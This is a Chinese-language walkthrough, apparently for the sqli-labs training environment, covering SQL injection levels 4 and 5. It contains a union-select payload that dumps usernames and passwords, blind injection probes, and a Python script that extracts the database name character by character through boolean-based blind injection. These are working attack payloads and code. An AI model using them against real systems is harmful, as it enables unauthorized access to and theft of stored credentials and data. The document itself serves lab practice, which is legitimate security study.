 ##### level 4

1“报错：

 '"1"") LIMIT 0,1' at line 1

```sql
-1") union select 1,2,group_concat(username,password) from users--+
```

##### level 5

先判断闭合方式

```sql
1' and 1=2 --+
```

进行数据库的判断

```
1'and ascii((select (substr((select database()),1,1))))>=101--+ 
```

攻击代码：

```python
import requests
from bs4 import BeautifulSoup

url = 'http://10.142.9.183/Less-5/'

#正确答案的长度为704
# 判断当前数据库的长度
def get_database_length():
    for i in range(20):
        data_database_L = {
        'id':"1' and length(database())=" + str(i) + " # ",
        }
        # print(data)
        r_database_length = requests.get(url=url, params=data_database_L)
        html=r_database_length.text
        if r_database_length.status_code == 200:
            if len(html)==704:
                print("数据库的长度为:"+str(i))
                return i 

# databse_length = get_database_length()
databse_length = 8

# 获取当前数据库的名称
def get_database_name(length=8):
    database_name = ''
    for i in range(1, length + 1):
        for j in 'qwertyuioplkjhgfdsazxcvbnm0123456789':
            id = " ' or left(database(), " + str(i) +  ") = '"  + database_name + str(j) + "' # "
            # print(username)
            param = {
                'id': id
                }
            database_name_r = requests.get(url=url, params=param)
            html=database_name_r.text
            if database_name_r.status_code == 200:
                if len(html)==704:
                    database_name += str(j) 
                    print(database_name)
                    break
    return database_name         

```